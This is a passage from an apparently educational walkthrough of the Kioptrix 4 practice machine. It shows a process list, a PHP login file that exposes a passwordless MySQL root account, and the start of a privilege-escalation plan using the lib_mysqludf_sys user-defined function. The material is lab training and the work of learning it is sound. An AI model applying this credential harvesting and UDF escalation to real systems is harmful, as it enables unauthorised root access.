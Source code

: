```console
root      4658     1  0 21:27 ?        00:00:00 /bin/sh /usr/bin/mysqld_safe
root      4700  4658  0 21:27 ?        00:00:00 /usr/sbin/mysqld --basedir=/usr
root      4702  4658  0 21:27 ?        00:00:00 logger -p daemon.err -t mysqld_s
root      4775     1  0 21:27 ?        00:00:00 /usr/sbin/nmbd -D
root      4777     1  0 21:27 ?        00:00:00 /usr/sbin/smbd -D
root      4791  4777  0 21:27 ?        00:00:00 /usr/sbin/smbd -D
root      4792     1  0 21:27 ?        00:00:00 /usr/sbin/winbindd
root      4823  4792  0 21:27 ?        00:00:00 /usr/sbin/winbindd
root      4824     1  0 21:27 ?        00:00:00 /usr/sbin/cron
root      4846     1  0 21:27 ?        00:00:00 /usr/sbin/apache2 -k start
root      4903     1  0 21:27 tty1     00:00:00 /sbin/getty 38400 tty1
root      4915  4792  0 21:28 ?        00:00:00 /usr/sbin/winbindd
root      4916  4792  0 21:28 ?        00:00:00 /usr/sbin/winbindd
root      5042  4602  0 23:27 ?        00:00:00 sshd: john [priv]
john      5175  5051  0 23:37 pts/0    00:00:00 grep root
```

MySQL is running... and since we have access to the Machine via SSH, let's see if we can't find the Username and Password of the database in the __/var/www__ directory.

```console
john@Kioptrix4:~$ cd /var/www 
john@Kioptrix4:/var/www$ ls
checklogin.php  images     john               logout.php  robert
database.sql    index.php  login_success.php  member.php
john@Kioptrix4:/var/www$ cat checklogin.php 
<?php
ob_start();
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

No Password? So much for strict security...

Now, you might be thinking to yourself - "Jack! Why would I care that MySQL Is running? Shouldn't I be looking for a way to escalate privileges?"

Ahhh and that my dear reader is exactly what we are doing! See, now that we have "root" access to MySQL, we can attempt command execution using a MySQL UDF or [User Defined Function](https://dev.mysql.com/doc/refman/5.7/en/adding-udf.html).

What does that mean? Simple... using the MySQL UDF we can escalate our privilege to root! You can read more about MySQL UDF [here](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)!

First things first, for the MySQL UDF to work - MySQL has to be running with root privileges, so let's check.

```console
john@Kioptrix4:/var/www$ ls -la /usr/lib/lib_mysqludf_sys.so 
-rw-rw-rw- 1 root root 12896 2012-02-04 10:08 /usr/lib/lib_mysqludf_sys.so
```
